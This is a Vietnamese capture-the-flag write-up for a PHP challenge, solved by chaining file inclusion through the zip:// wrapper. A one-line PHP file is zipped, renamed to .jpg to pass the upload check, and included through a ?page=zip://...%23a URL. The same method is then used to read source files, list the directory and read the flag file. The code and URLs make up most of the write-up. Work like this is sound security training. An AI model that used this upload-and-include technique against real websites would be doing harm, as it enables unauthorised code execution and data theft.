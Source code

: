PHP wrapper không mới, thực tế ta đã biết đến nó qua những chall như `PHP-filters` , `LFI- Double encoding`, vậy thử dùng lại những wrappers đó, ta thấy `filter` bị văng ra "attack detected", còn `zip` thì chạy ok. Thao tác tấn công như sau:

- Tạo 1 file php với code như sau:

  ```php
  <?php show_source('index.php') ?>
  ```

- Lưu file với tên a.php(chỉ nên dùng 1 chữ cái vì có thêm filter `page name too long`), zip lại và đổi tên file thành a.jpg để bypass file upload, may mắn chall này không có nhiều filter file upload như những chall trước

- Upload lên server, truy cập đường dẫn sau:

  > ?page=zip://path_to_file_zip%23php_file_name
  >
  > ?page=zip://tmp/upload/2EXM3tORM.jpg%23a

Và sẽ có được source của index.php, tuy nhiên trong đây không có flag

- Viết 1 code php khác để soát xem trong folder này còn gì không

  ```php
   <?php
  $dir = "./";
  
  // Sort in ascending order - this is default
  $a = scandir($dir);
  print_r($a);
  ?> 
  ```

  lặp lại những thao tác trên, ta có được kết quả:

  > Array (    [0] => .    [1] => ..    [2] => ._nginx.http-level.inc    [3] => ._nginx.server-level.inc    [4] => ._php-fpm.pool.inc    [5] => ._run    [6] => flag-mipkBswUppqwXlq9ZydO.php    [7] => index.php    [8] => tmp    [9] => upload.php    [10] => view.php ) 

- Vậy lại sửa code php lần 3:

  ```
  <?php show_source('flag-mipkBswUppqwXlq9ZydO.php') ?>
  ```

  Upload file và ta có được flag

